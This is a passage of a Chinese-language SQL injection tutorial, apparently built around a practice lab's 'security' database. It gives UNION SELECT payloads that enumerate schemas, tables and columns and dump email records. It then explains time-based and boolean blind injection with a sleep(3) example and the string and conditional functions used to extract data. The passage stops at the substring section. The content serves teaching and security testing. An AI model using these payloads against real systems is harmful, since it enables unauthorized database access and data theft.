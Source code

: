 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```sql<br>// 库名<br>union select 1,group_concat(schema_name),3 from information_schema.schemata<br><br>union select 1,(select schema_name from information_schema.schemata limit 0,1),3<br><br>// 表名<br>union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'<br><br>// 列名<br>union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'<br><br>// 数据<br>union select 1,group_concat(id,email_id),3 from security.emails<br>``` |

## [](#5-%E6%97%B6%E9%97%B4%E5%9E%8B%E7%9B%B2%E6%B3%A8--%E5%B8%83%E5%B0%94%E5%9E%8B%E7%9B%B2%E6%B3%A8)5 时间型盲注 & 布尔型盲注

盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。盲注一般分为布尔盲注和基于时间的盲注和报错的盲注。

> **时间型**：通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在 SQL 语句中使用 sleep() 函数看加载网页的时间来判断注入点。
> 
> **布尔型**：页面只返回 True 和 False 两种状态(类型)页面。利用页面返回不同，逐个猜解数据。

适用场景：通常无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知。

### [](#51-%E5%8E%9F%E7%90%86%E7%A4%BA%E6%84%8F)5.1 原理示意

`select * from user where id = '?'`

`?` 为用户输入，替代为：`4' and sleep(3)#`

实际执行的 SQL 语句：`select * from user where id = '4' and sleep(3)#`

当 ID = 4 存在时，sleep 3 秒

当 ID = 4 不存在时，直接返回

整条拼接出来的 SQL 是正确的就执行 sleep，前面错误（不存在），sleep(3) 不执行

### [](#52-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)5.2 常用函数

#### [](#521-%E7%BC%96%E7%A0%81%E8%BD%AC%E6%8D%A2%E5%87%BD%E6%95%B0)5.2.1 编码转换函数

`ord('a')`：将字符转化为 ascii 码

`ascii('a')`：将字符转化为 ascii 码

`char(97)`：将 ascii 转化为字符

#### [](#522-%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E5%87%BD%E6%95%B0)5.2.2 条件判断函数

`if(exp1, exp2, exp3)`：exp1 成立，执行 exp2，否则执行 exp3。

case when then 函数：`select case when username="admin" then sleep(1) else "error" end from wp_user_`

#### [](#523-%E6%88%AA%E5%8F%96%E5%87%BD%E6%95%B0)5.2.3 截取函数

**substr 函数**

`substr(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substr(str from pos for length)` ：可以用在过滤了 `,` 的情况

**substring 函数**
